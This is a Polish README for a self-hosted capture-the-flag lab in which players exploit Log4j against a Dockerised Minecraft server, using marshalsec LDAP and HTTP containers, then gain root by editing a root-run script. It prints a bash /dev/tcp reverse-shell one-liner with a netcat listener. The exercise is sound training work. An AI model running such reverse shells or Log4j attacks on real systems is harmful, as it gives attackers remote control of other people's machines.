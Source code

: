# minecraft-ctf

## Wprowadzenie
Witamy w `minecraft-ctf`, wyjątkowym wyzwaniu CTF stworzonym specjalnie dla Was! Twoim zadaniem będzie zdobycie flagi, wykorzystując podatność Log4j oraz kilka innych narzędzi, a to wszystko co najlepsze, z użyciem gry, którą chyba każdy zna! Przygotuj się na fascynujące wyzwanie! Owocnego hackowania i udanej zabawy!

## Wymagania
- Java (jeśli jej nie masz, pobierz i zainstaluj)
- Docker
- Minecraft Launcher
- Jeśli pracujesz na Windowsie, koniecznym może się okazać WSL
- NetCat (nie dostępny na Windowsie, użyj WSL lub zainstaluj osobno)

## Szybki start
### Uruchamianie SKLauncher
1. Otwórz SKLauncher, który również znajduje się w repozytorium.
2. Wybierz tryb offline.
3. Kliknij '+' obok "Installations Manager".
4. Wybierz release 1.8.8, zapisz i naciśnij PLAY.

### Uruchomienie serwera Minecraft i reszty potrzebnych kontenerów
1. **Uruchom swój serwer Minecraft'a:**
   - Plik konfiguracyjny kontenera serwera mc znajduje się w katalogu `Minecraft-Log4j-Exploit`.
   - Po zbudowaniu kontenera i uruchomieniu, w trybie Multiplayer w grze, dodaj serwer pod adresem 127.0.0.1.

2. **Uruchom serwer http:**
   - Plik konfiguracyjny znajduje się w katalogu `codehttp`.

3. **Uruchom serwer LDAP:**
   - Dockerfile znajduje się w katalogu `marshalsec`.

<details>
<summary><b>Informacje o kontenerach</b></summary>
Dwa spośród trzech odpalonych przez Ciebie kontenerów są "Twoje" - jako hacker je kontrolujesz. Nienależącym do Ciebie jest ten hostujący serwer Minecraft'a, do którego chcesz uzyskać dostęp. Pozostałe kontenery pomogą Ci w tej misji.
</details>

## Twoje zadanie
Wykorzystaj podatność starej wersji Log4j i inne narzędzia do zdobycia ukrytej flagi. Kod hostowany na httpcode musi być przygotowany i skompilowany. Znajdź i zmodyfikuj bashowy skrypt wykonywany z uprawnieniami roota. Jak uzyskasz uprawnienia roota, możesz odnaleźć w plikach kod, który następnie wpiszesz w serwerze Minecrafta. Jeśli kod okaże się poprawny - gratulacje hackerze/ko ;)

## Przydatne informacje

### Reverse Shell
```sh
# Nasłuchuj na porcie `5000` na swoim komputerze:
nc -l 5000

# Na komputerze ofiary:
bash -i >& /dev/tcp/[twoje IP]/5000 0>&1
```

### Budowanie obrazu:
```sh
# Stworzenie obrazu kontenera:
docker build . -t nazwa-obrazu

# Uruchomienie obrazu z przekierowaniem portów:
docker run -p 25565:25565 -ti
```

### Konfiguracja EOL w VSCode
```sh
# Jeśli pracujesz na Windowsie, konieczna może okazać się zmiana EOL - End Of Line:
- Otwórz `Minecraft-Log4j-Exploit/server/start_server.sh`.
- Użyj `CTRL + SHIFT + P`.
- Zmień `EOL sequence`.
```

## Przydatne komendy 

### Docker
```sh
docker build
docker run
docker ps
docker ps -a
docker kill <id>
docker remove <id>
docker image prune
docker container prune
```

## Credits
- [Minecraft-Log4j-Exploit](https://github.com/Justin-Garey/Minecraft-Log4j-Exploit) od Justina Gareya
- [marshalsec](https://github.com/mbechler/marshalsec) od Marcina Bechlera
- [Smallest Docker Image Static Website](https://lipanski.com/posts/smallest-docker-image-static-website) od Vladimira Lipanskiego


TODO:
lf w starcie
wejsc na server mc wpisac komende
jak zatrzymać bash -c reverse shell?
echo to wbudowana funkcja basha, a nie żadna binarka 
allready allocated port: docker desktop delete container, 
